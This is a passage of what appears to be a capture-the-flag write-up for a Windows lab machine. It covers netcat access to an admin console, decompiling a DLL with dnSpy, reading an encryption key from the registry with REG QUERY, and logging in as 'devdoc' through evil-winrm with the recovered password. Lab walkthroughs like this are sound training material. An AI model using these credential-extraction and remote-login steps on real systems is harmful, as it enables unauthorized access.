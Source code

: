 ```
$ nc 127.0.0.1 10100
Reports Management administrative console. Type "help" to view available commands.
> help
Available Commands:
backup: Perform a backup operation.
validate: Validates if any report has been altered since the last backup.
recover <filename>: Restores a specified file from the backup to the Reports folder.
upload <external source>: Uploads the reports to the specified external source.
> backup
Backup operation completed successfully.
```

- Upon examine the `inetpub` folder, we found an interesting file located in `C:\inetpub\ExaminationPanel\ExaminationPanel\bin\ExaminationManagement.dll`.

- Let's download that file and reverse it using `dnspy`:

![img_12.png](img/img_12.png)

- Here, we can see the path in the registry where the encryption key is located. We can pull it out using:

```
REG QUERY HKLM\Software\Meddigi /v EncKey
```

```
c:\inetpub\ExaminationPanel\ExaminationPanel\bin>REG QUERY HKLM\Software\Meddigi /v EncKey
REG QUERY HKLM\Software\Meddigi /v EncKey

HKEY_LOCAL_MACHINE\Software\Meddigi
    EncKey    REG_SZ    1g0tTh3R3m3dy!!
```

- Now we can connect to the target machine as `devdoc` using `evil-winrm` and the key we just found:

```
evil-winrm -i 10.10.11.238 -u devdoc -p '1g0tTh3R3m3dy!!'
```

![img_13.png](img/img_13.png)
